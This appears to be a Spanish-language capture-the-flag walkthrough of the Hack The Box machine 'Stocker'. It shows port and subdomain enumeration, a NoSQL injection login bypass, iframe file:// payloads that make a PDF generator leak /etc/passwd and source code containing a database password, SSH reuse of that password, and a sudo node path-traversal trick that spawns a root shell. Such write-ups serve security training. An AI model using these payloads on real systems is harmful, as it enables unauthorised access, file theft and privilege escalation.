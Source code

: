 - Tags: #linux #nosql #htmlinjection #nodejs #pathtraversal #express

------------
## Enumeración

- Identificación de SO:
  
```bash
ping -c 1 10.10.11.196
```
![Pastedimage20240831133115.png](/Imagenes/Stocker/Pastedimage20240831133115.png)

Como vemos según lo que nos indica el `ttl` es una maquina `Linux`

- Identificación de puertos abiertos en la maquina:
  
```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.196 -oG allPorts
```

- Identificación de servicios corriendo en los puertos abiertos:
```bash
nmap -p22,80 -sCV 10.10.11.196 -oN targeted
```

![Pastedimage20240831133708.png](/Imagenes/Stocker/Pastedimage20240831133708.png)

- Al ver que hay un puerto 80 con el servicio `http` corriendo por debajo podemos lanzar el siguiente script de nmap:

```bash
nmap -p80 --script="http-enum" 10.10.11.196 -oN webScan
```

- Para ver información básica sobre la web que hay corriendo por el servidor:

```bash
whatweb http://stocker.htb/
```

![Pastedimage20240831134053.png](/Imagenes/Stocker/Pastedimage20240831134053.png)

-----------------
## Fuzzing

- Miramos si hay subdominios:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.stocker.htb" http://stocker.htb/
```

![Pastedimage20240831134343.png](/Imagenes/Stocker/Pastedimage20240831134343.png)

Como hemos visto hemos encontrado un subdominio en el que vamos a mirar que es lo que hay dentro de el y haremos un poco de enumeración.

![Pastedimage20240831134725.png](/Imagenes/Stocker/Pastedimage20240831134725.png)

-------
## Explotación

Como podemos observar el nuevo `subdominio` es un panel de login, podemos probar varios tipos de técnicas para poder bypassearlo o identificación de vulnerabilidades como lo siguiente:

- Probar passwords por defecto
- SqlIjection
- NoSQLInjection

**De primeras lo que tenemos que hacer al ver `Express` & `NodeJs` es interceptar la petición con `burpsuite` y ver si podemos mandar peticiones en `JSON`**

`Cuando una aplicacion esta construida con NodeJs y Express normalmente estan construidas sobre bases de datos diferentes a MySql, como por ejemplo PostgreSQL y MongoDB, estas dos son bases de datos no relacionales, por lo que podemos hacer Inyecciones SQL para bypassear el panel de Login`

- Antes tenemos que cambiar el `Conten-Type:` `application/json`
- Payload:
  
```bash
{"username": {"$ne": null}, "password": {"$ne": null} }
```

Una vez que hemos bypasseado el panel de Login empezamos a indagar un poco en la pagina web para encontrar vulnerabilidades que podemos encontrar.

---------------
## HTML INJECTION

**A la hora de crear un pedido nos crea un archivo pdf, si nosotros lo capturamos con Burpsuite a la hora de la creación del archivo pdf podemos comprobar que podemos modificar los elementos que hay dentro del pdf, dentro de todos estos elementos el que nos importa a nosotros es el `titulo`, el que se muestra por pantalla básicamente.**

**Por lo general los generadores de PDF pueden renderizar etiquetas html, lo que nos abre una posibilidad de hacer una inyeccion html.**
**Hemos intentado inyectar unas etiquetas `<script>` dentro del pdf, al darle a recargar el servidor devuelve un error interno, lo que significa que intento representar las etiquetas pero fallo.**

**Teniendo en cuenta la información anterior, es posible que podamos cargar el generador de PDF y mostrar archivos del sistema mediante `iframes`. Considere la siguiente carga útil HTML.**

- Payload:
  
```bash
<iframe src='file:///etc/passwd' width='1000' height='1000'></iframe>
```

`iframes, o Inline Frames, son elementos HTML que pueden cargar otra página HTML dentro de la misma documento. El atributo src es el origen del contenido del servidor externo o interno.`

- Ejemplo practico en `Burpsuite`:

![Pastedimage20240831141423.png](/Imagenes/Stocker/Pastedimage20240831141423.png)

Al recargar veremos el documento pdf generado...

![Pastedimage20240831141651.png](/Imagenes/Stocker/Pastedimage20240831141651.png)

Como vemos tenemos un LFI en el que podemos listar archivos internos del servidor, lo próximo que tendríamos que hacer es buscar algún archivo que nos proporcione credenciales como algún `id_rsa` o algún archivo de configuración del servidor.

---------------
## Wildcard Injection

**Sin embargo, nos encontramos con un problema, que es que no sabemos dónde está la aplicación de desarrollo situado. Un truco fácil que podemos usar para determinar potencialmente esta ubicación es enviar JSON con formato incorrecto en uno de los puntos de conexión de la aplicación para ver si produce un error. Usemos el punto de conexión de compra como lo hicimos previamente. Para hacer esto podemos atrapar otra solicitud en Burp y quitar uno de los corchetes }. Después Al quitar el corchete y enviar la solicitud, obtenemos el siguiente mensaje de error.**

![Pastedimage20240831142307.png](/Imagenes/Stocker/Pastedimage20240831142307.png)

**A partir del error, podemos ver que la aplicación está alojada en la carpeta `/var/www/dev/` y dado que se trata de un `NodeJS` podemos intentar leer varios nombres de archivo predeterminados para encontrar la función principal de la aplicación aplicación. Por lo general, esto se denomina `index.js` o `main.js` o incluso `server.js`.**

- Hacemos lo mismo con `Burpsuite` aplicando otro payload:
  
```bash
<iframe src='file:///var/www/dev/index.js' width='1000' height='1000'></iframe>
```

- Nos devuelve el siguiente archivo de configuracion del servidor:
  
```bash
const express = require("express");
const mongoose = require("mongoose");
const session = require("express-session");
const MongoStore = require("connect-mongo");
const path = require("path");
const fs = require("fs");
const { generatePDF, formatHTML } = require("./pdf.js");
const { randomBytes, createHash } = require("crypto");
const app = express();
const port = 3000;
// TODO: Configure loading from dotenv for production
const dbURI = "mongodb://dev:IHeardPassphrasesArePrettySecure@localhost/dev?
authSource=admin&w=1";
```

**Como hemos visto anteriormente el usuario era `angoose` y la password como vemos es `IHeardPassphrasesArePrettySecure`**

------------
## Conexión SSH

```bash
ssh agoose@10.10.11.196
```

----------
## Escalada de Privilegios

```bash
sudo -l
```

![Pastedimage20240831142949.png](/Imagenes/Stocker/Pastedimage20240831142949.png)

**Lo que nos esta diciendo es que el usuario angoose puede ejecutar node como `sudo` ejecutando un script de la ruta `/usr/local/scripts/*.js`**

Por lo que podemos hacer lo siguiente, con el siguiente `payload` podemos ejecutar node e iniciar una shell como `root`:

```bash
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```

Como solo podemos ejecutar scripts de la ruta `/usr/local/scripts` podemos probar a en el directorio `/tmp` crear el siguiente script y ejecutar el siguiente comando:

- shell.js

```bash
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```
- Comando:

```bash
sudo node /usr/local/scripts/credentials.js/../../../../../../tmp/shell.js
```

**Lo que estamos realizando es un `path traversal` y estamos bypasseando que solo se puedan ejecutar scripts de dicha ruta.**
